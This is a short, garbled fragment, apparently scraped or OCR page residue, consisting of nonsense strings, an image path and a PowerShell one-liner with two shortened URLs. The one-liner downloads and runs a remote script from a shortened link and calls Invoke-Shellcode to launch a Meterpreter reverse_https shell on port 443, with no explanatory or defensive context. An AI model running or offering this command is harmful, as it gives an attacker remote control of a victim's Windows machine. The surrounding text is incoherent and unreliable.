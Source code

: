 check
=====
GGGHHHJJJ_now

FocusmazmanFocus


RunIEX (New-Object Net.WebClient).DownloadString('http://bit.ly/14bZZ0c');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lport 443 -Force -Lhost Run

http://fur.ly/b357
http://bit.ly/14bZZ0c
